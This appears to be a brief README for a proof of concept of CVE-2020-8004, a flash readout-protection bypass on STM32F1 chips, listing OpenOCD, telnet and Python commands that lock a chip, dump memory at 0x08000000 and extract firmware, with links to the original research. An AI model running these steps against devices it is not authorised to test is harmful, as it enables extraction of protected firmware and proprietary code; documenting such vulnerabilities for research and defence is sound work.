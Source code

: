 ## CVE-2020-8004
## TEST
`$cd openocd-toolbox/scripts/linux/stm32f1x/`  
`$./lock.sh`  
`$./attach.sh`  
`($telnet localhost 4444)`  
`($reset halt)`  
`($mdw 0x08000000)`  
`$cd stm32f1-firmware-extractor`  
`$python3 main.py 0x08000000 512`

![test](https://github.com/wuxx/CVE-2020-8004/blob/master/doc/test.jpg)
![screenshot](https://github.com/wuxx/CVE-2020-8004/blob/master/doc/screenshot.png)
## Reference resources
- https://blog.zapb.de/stm32f1-exceptional-failure/
- https://gitlab.zapb.de/zapb/stm32f1-firmware-extractor/
- https://www.muselab-tech.com/cve-2020-8004-lou-dong-yuan-li-fen-xi/

